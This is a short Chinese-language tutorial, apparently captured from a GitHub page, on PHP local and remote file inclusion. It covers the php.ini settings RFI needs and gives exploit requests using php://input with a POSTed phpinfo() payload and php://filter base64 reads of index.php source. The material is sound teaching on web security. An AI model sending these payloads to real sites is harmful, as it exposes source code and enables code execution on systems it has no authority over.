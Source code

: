 ### LFI(Local File Inclusion)

本地文件包含漏洞，是指能打开并包含本地文件的漏洞。

### RFI(Remote File Inclusion)

远程文件包含漏洞。是指能够远程包含远程服务器上的文件并执行。由于远程服务器的文件是我们可控的，因此漏洞一旦存在危害和很大。

但RFI的利用条件较为苛刻，需要php.ini中进行配置：

> allow_url_fopen = On
> allow_url_include = On

两个配置选项均需要为On，才能远程包含文件成功。

> 在php.ini中，allow_url_fopen默认一直是On，而allow_url_include从php5.2之后就默认Off。

# 利用方法

## php伪协议

### php://input

利用条件：

1. allow_url_include = On。
2. 对allow_url_fopen不做要求。

利用方法：

~~~
index.php
?file=php://input

POST:
<?php phpinfo();?>
~~~

### php://filter

利用条件：

无

利用方法：

~~~
index.php?
file=php://filter/read=convert.base64-encode/resource=index.php
~~~
^
~~~
index.php?
file=php://filter/convert.base64-encode/resource=index.php
~~~
